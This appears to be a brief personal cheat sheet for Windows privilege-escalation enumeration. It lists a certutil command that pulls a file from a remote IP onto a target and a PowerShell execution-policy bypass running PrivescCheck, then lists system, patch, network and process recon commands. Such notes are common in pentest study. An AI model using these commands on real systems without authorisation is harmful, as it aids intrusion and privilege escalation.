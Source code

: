 #windows 


Download a file
```powershell
certutil -urlcache -f http://10.10.10.1/<file> <binary_name>
```

`: powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`
### System information
`whoami /priv`
`net users`
`net localgroup administrators`
`systeminfo`

```powershell 
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

This information is very useful as it provides us with an idea of what specific version of Windows is running on the target and the updates that have been installed on the target system.

#### Network Information
`route print`
`arp -a` devices on network
`netstat -ano` tcp connections
`netsh firewall show state`
`netsh advfirewall firewall`
`netsh advfirewall show allprofiles`

### Process
`tasklist /SVC`
